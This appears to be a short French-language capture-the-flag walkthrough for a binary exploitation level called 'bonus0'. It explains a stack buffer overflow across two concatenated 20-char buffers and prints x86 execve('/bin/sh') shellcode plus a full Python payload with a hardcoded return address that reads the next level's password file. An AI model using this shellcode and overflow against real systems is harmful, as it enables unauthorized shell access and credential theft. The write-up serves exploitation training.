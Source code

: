# bonus0

We will use this shellcode:
```
\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

On comprends dans le code qu'on a deux buffers de 20 chars chacun. Si notre 1er read est plus long que 20 chars, cela va overwrite le `\0` et on peut ainsi concat nos deux payloads ensemble.

Comme le shellcode fait 24 bytes, on écrit les 20 premiers, puis les 4 derniers, on remplit de dummy chars, puis l'adresse de notre payload car on jump grâce au buffer overflow. On rajoute des dummy chars pour aligner la stack.

Payload:
```bash
$> ((python -c "print('\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99')"); (python -c "print('\xb0\x0b\xcd\x80' + 'A' * 5 + '\x26\xf7\xff\xbf' + 'A' * 7)"); echo "cat /home/user/bonus1/.pass") | ./bonus0
```
